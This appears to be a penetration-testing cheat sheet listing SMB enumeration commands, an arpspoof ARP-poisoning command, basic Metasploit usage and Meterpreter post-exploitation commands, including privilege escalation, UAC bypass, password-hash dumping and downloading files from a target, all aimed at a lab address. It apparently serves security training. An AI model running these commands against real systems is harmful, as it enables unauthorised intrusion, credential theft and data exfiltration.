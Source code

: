 ### List Shares

```text
smbclient -L //10.10.10.10 -N
```

### Mount Share

```text
smbclient //10.10.10.10/sharename -N
```

### enum4linux

```text
enum4linux -a 10.10.10.10
```

The above command does all the previous ones and gives you more data too except mounting the shares, that you have to implement using smbclient.

## ARP Poisoning

### arpspoof

&lt;interface&gt; == eth0/tap0

```text
arpspoof -i <interface> -t target -r host
```

## Metasploit

### Basic

```text
search <term>
use <term>
info
show options
set <option> x
exploit
```

### Meterpreter

**bind\_tcp**: runs a server process on the target machine that waits for connections from attacker machine.

**reverse\_tcp**: performs a TCP connection back to the attacker machine. Helps evade firewall rules.

```text
background #backgrounds the current session
sessions -l
sessions -i %n
sysinfo
ifconfig, route
getuid
getsystem #privesc
bypassuac #if privesc fails
hashdump
cat '/path/to/file.txt'
download '/path/to/fileontarget.txt' /root/mymachine/
```

---